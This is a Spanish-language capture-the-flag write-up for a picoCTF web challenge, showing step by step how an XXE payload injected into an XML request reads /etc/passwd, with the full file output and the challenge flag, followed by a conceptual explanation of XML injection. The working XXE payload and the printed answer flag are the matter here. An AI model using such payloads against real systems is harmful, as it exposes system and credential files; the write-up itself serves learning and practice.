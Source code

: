 ## Descripción  
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Datos de Acceso al Nivel
user: carlosof / kali 
password:

## Solución
- Ingresamos a la página web e inspeccionamos la pagina.
- Ingresamos al apartado de red y presionamos uno de los 3 botones de `deatils` que aparecen, no tiene importancia cual sea.
- Ahí podemos ver la petición y damos dos clics para ver los encabezados, le damos reenviar al  formulario para ver las solicitudes y podemos ver la petición carga útil  XML.
- Si ingresamos a la página https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity podernos ver que podemos hacer una inyección con el siguiente ejemplo:
```bash
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```
- Copiamos la segunda línea y la pegamos en el cuerpo de tal manera que quede así:
```bash
--Antes
<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
--Despues
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>1</ID></data>
```
- Dentro de las etiquetas de ID, colocamos la 3er línea, de tal manera que quede de esta manera:
```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;</ID></data>
```
- Enviamos esta solicitud, entramos al apartado de respuesta y obtenemos un mensaje, junto con la bandera.
```bash
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

## Notas Adicionales
La inyección XML es una técnica de ataque en la que un atacante manipula datos XML en una aplicación para explotar vulnerabilidades en el procesamiento de XML. Este tipo de inyección es similar a otras inyecciones, como la inyección SQL, pero se centra en la forma en que se manejan los datos XML.

**¿Cómo funciona?

1. **Vulnerabilidad**: Ocurre cuando una aplicación acepta datos XML de una fuente no confiable y los procesa sin validación adecuada. Esto puede incluir la falta de control sobre los datos que se introducen en el XML o en la forma en que se utilizan.
    
2. **Manipulación de Datos**: El atacante envía un documento XML malicioso que puede incluir:
    
    - **Entidades externas**: Estas permiten la inclusión de archivos locales o remotos, lo que puede llevar a la divulgación de información sensible.
    - **Modificación de datos**: Alterar la estructura del XML para alterar la lógica de negocio de la aplicación.
3. **Ejecución**: Si la aplicación no sanitiza correctamente el XML, puede ejecutar comandos no deseados o exponer datos que no deberían estar accesibles.

## Referencias 
https://play.picoctf.org/practice/challenge/376?page=1&search=soap
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity